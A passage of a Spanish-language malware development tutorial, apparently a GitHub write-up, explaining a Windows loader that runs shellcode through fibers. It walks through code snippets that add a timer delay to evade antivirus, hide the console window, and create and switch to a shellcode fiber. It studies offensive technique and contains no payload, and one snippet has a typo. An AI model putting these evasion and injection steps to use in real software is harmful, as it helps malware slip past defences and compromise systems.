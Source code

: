Dentro de los parametros de ```SetTimer``` le indicamos en milisegundos el tiempo que va a esperar para ejecutarse lo que se encuentre dentro, y en este caso es la llamada a la funcion ```fiber_injection```, esto es una clasica implementacion de un timming attack que agrega un pequeño delay al inicio de la ejecucion del malware para evadir los antivirus

- Despues tenemos un pequeño bucle declarado de esta forma:

```cpp
while (GetMessage(&msg, NULL, 0, 0)){	
    	TranslateMessage(&msg);
    	DispatchMessage(&msg);
}
```

Donde con ```GetMessage``` le estamos diciendo que se siga ejecutando hasta que reciba una señal de salida, esa señal de salida se manda a llamar desde ```TranslateMessage``` y ```DispatchMessage```, esto se usa por que debemos de procesar los mensajes, y con ayuda de esas funciones, la fibra esta respondiendo a los mensajes recibidos y manteniendo la ejecución en curso.

Asi que toda la funcion ```VOID CALLBACK shellcode_routine``` implementa una funcion de callback para hacer un timming attack en la fibra de la shellcode.

---

## Funcion Main

A este punto ya solo nos queda mandar a llamar a la funcion ```main()```,

- Lo primero que tenemos en el main son dos funciones que lo que hacen es ocultar la ventana del cmd que se abre al ejecutar el binario:

```cpp
HWND ventana_cmd = GetConsoleWindow();
ShowWindow(ventana_cmd, SW_HIDE);
```

- Despues se esta conviertiendo el hilo principal en una fibra:

```cpp
LPVOID main_fiber = ConvertThreadToFiber(NULL);
```
Esto con el fin de cambiar de contexto entre las fibras

- La funcion que sigue crea una fibra donde el segundo parametro es el callback creado anteriormente:

```cpp
LPVOID shellcode_fiber = CreateFiber(NULL, shellcode_routine, NULL);
```

- Despues ejecuta la fibra creada anteriormente:

```cpp
witchToFiber(shellcode_fiber);
```

- Y por ultimo ejecuta la fibra principal

```cpp
SwitchToFiber(main_fiber);
```
